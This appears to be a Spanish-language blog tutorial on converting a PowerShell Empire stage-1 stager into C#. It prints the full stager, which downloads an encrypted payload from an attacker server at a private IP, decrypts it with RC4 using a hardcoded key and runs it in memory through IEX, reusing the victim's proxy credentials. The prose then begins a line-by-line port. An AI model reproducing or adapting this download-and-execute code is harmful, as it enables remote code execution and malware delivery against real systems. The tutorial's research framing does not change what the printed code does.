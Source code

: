 ```console
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
$wc.PRoxY=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t);
 
$K=[System.Text.Encoding]::ASCII.GetBytes('fdcece0a22c10f83dccc8f17c95a33d4');
$iv=$data[0..3];
$data=$data[4..$data.Length];
 
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
 
-Join[Char[]](& $R $data ($IV+$K))|IEX
```console

Ahora tenemos que convertir cada parte de este código en C#. Disfruté mucho aprendiendo algunas clases .Net mientras hacía esta investigación. Comencemos línea por línea.
 
# De PowerShell a C#
 
El **System.Net.ServicePointManager.Expect100Continue** en palabras simples, esta propiedad si es verdadera, las solicitudes del cliente que usan los métodos PUT y POST agregarán un encabezado Expect a la solicitud. Para más información, consulte el [enlace](https://msdn.microsoft.com/en-us/library/system.net.servicepointmanager.expect100continue(v=vs.110).aspx)

```console
# PowerShell avoid sending Expect 100 Header 
[System.Net.ServicePointManager]::Expect100Continue=0;
 
// C# avoid sending Expect 100 Header 
System.Net.ServicePointManager.Expect100Continue = false;
```console

# Conexión al Servidor 

El siguiente punto que tenemos es el objeto **Web.Client**, lo usamos para comunicarnos con el servidor Empire que aloja la segunda etapa (stage 2).
 
Básicamente, la primera etapa (stage 1) es responsable de crear una conexión con la máquina atacante y ejecutar en la memoria la segunda parte (stage 2) (que generalmente es más grande). A veces se hace referencia como stage0 y stage1. Si desea saber más sobre la ejecución en etapas o stages de los malware puede consultar esta [documentación de Metasploit](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/).
 
El objeto **Web.Client** incluye todas las piezas para realizar la comunicación web. En caso de que el objetivo esté utilizando un proxy para comunicarse con otras redes, las propiedades **DefaultWebProxy** y **DefaultNetworkCredentials** se utilizan para proporcionar Autenticación y conexión a través del Servidor Proxy, si es necesario. No convertí la parte de proxy del código, no fue necesario para mi investigación, depende de usted convertirlo si lo necesita.

```console
```